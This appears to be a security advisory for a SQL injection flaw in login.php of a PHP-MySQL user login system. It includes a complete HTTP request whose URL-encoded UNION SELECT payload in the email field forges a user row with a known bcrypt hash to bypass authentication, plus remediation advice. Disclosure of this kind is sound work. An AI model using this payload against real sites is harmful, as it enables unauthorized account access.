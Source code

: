 # keerti1924 / PHP-MYSQL-User-Login-System - login.php SQL Injection

## Vendor Homepage:
[PHP-MYSQL-User-Login-System](https://github.com/keerti1924/PHP-MYSQL-User-Login-System)

## Impact
The login.php script in keerti1924's PHP-MYSQL-User-Login-System is vulnerable to SQL injection (SQLi) attacks. Exploiting this flaw, attackers can bypass authentication by injecting malicious SQL code via the 'email' parameter. By crafting a UNION SELECT statement, an attacker can manipulate the query to retrieve unauthorized data, potentially compromising user credentials or gaining unauthorized access to the application. Moreover, to successfully exploit this vulnerability, the 'password' parameter must match the hash of the email payload password retrieved via the UNION SELECT statement, further amplifying the risk of unauthorized access.

## Proof of Concept
Step 1: Visit the /login.php\
Step 2: Open Browser Console\
Step 3: Run [SQLI Auth POC](https://raw.githubusercontent.com/skid-nochizplz/skid-nochizplz/main/TrashBin/CVE/keerti1924%20PHP-MYSQL-User-Login-System/SQLI%20Auth%20POC.js)\
Step 4: User will be redirected to home.php

## HTTP Request Example

```http request
POST /login.php HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

email = '%20UNION%20SELECT%201%20AS%20id%2c%20'NoChizPlz'%20AS%20username%2c%20'nochizplz%40nochizplz.com'%20AS%20email%2c%20'%242a%2412%24xkhwduBCkSl3tPhWVokC%2fOmrhboA0gxDWaVLl4uPLr2iSbXEtNdCq'%20AS%20password%20%23&password=nochizplz&login=Login
```

### Proof with Video:
![Vulnerability Proof](https://github.com/skid-nochizplz/skid-nochizplz/blob/main/TrashBin/CVE/keerti1924%20PHP-MYSQL-User-Login-System/SQLI%20Auth%20Proof.gif?raw=true)

## Remediation
To mitigate this SQL injection vulnerability, it is recommended to implement proper input validation and parameterized queries to prevent untrusted data from being directly interpreted as part of SQL commands. Additionally, enforcing principle of least privilege and ensuring strong authentication mechanisms can help minimize the impact of potential exploitation.

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)